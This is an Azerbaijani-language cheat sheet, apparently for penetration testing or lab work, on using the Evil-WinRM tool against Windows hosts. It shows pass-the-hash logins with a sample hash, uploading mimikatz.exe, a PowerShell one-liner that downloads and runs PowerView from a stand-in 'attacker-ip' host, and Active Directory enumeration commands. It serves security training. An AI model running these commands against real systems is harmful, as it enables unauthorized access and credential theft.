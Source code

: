 # 🕵️ Evil-WinRM İstifadə Sənədi

## 📌 Nədir?
**Evil-WinRM** Windows sistemlərinə **WinRM (Windows Remote Management)** protokolu üzərindən qoşulmaq üçün hazırlanmış bir **pentest alətidir**.  
Adətən **Cobalt Strike**, **Empire** kimi post-exploitation mərhələlərində istifadə olunur.  

Əsas məqsədi:
- Windows sistemlərə şəbəkə üzərindən qoşulmaq,
- Komandaları interaktiv PowerShell sessiyasında icra etmək,
- Faylları yükləmək və ya çıxarmaq,
- Post-exploitation işlərini rahatlaşdırmaqdır.

---

## ⚙️ Quraşdırma
**Debian/Kali Linux** sistemlərində:
```bash
sudo apt install evil-winrm -y
```

**Ruby ilə əl ilə:**
```bash
gem install evil-winrm
```

---
Bu xidmətin default portları:

TCP 5985 → HTTP üzərindən WinRM (ən çox istifadə edilən)

TCP 5986 → HTTPS üzərindən WinRM

---

## 🚀 Əsas İstifadə
```bash
evil-winrm -i <IP> -u <istifadəçi_adı> -p <parol>
```

### Nümunə:
```bash
evil-winrm -i 10.10.10.123 -u administrator -p 'Parol123!'
```

Bu halda:
- `-i` → qoşulacağın serverin IP ünvanı  
- `-u` → istifadəçi adı  
- `-p` → parol  

---

## 🔑 Sertifikat və Hash ilə qoşulma

### Hash ilə (Pass-the-Hash):
```bash
evil-winrm -i 10.10.10.123 -u administrator -H aad3b435b51404eeaad3b435b51404ee:3c7c5b5c1ad5d77cfec34567f9ab3456
```

### Sertifikat ilə:
```bash
evil-winrm -i 10.10.10.123 -c ./user.crt -k ./user.key -u administrator
```

---

## 📂 Fayl Əməliyyatları

**Fayl yükləmək (upload):**
```powershell
upload ./mimikatz.exe C:\Windows\Temp\mimikatz.exe
```

**Fayl endirmək (download):**
```powershell
download C:\Users\Administrator\Desktop\flag.txt ./flag.txt
```

---

## 📜 Script və fayl icrası

**Web-dən script yükləmək və icra etmək:**
```powershell
iex (New-Object Net.WebClient).DownloadString('http://attacker-ip/PowerView.ps1')
```

**Lokaldan script icra etmək:**
```powershell
. ./PowerView.ps1
```

---

## 🔍 Faydalı Komandalar

**Domain məlumatı almaq:**
```powershell
whoami /all
```

**AD qrupları görmək:**
```powershell
net group "Domain Admins" /domain
```

**Sessiyada PowerShell icrası:**
```powershell
powershell -c "Get-Process"
```

**Fayl oxumaq:**
```powershell
type C:\Users\Administrator\Desktop\secret.txt
```

---

## 🛠️ Əlavə Parametrlər
- **`-S`** → SSL bağlantısı (HTTPS üzərindən)  
- **`-ssl`** → SSL üçün alternativ flag  
- **`-r`** → Script yükləmək üçün qovluq göstərmək  

---

## ✅ Nəticə
Evil-WinRM ilə:
- Windows serverə rahat qoşulmaq,
- İstənilən PowerShell komandalarını icra etmək,
- Faylları ötürmək və qəbul etmək,
- Post-exploitation mərhələlərini asanlaşdırmaq mümkündür.
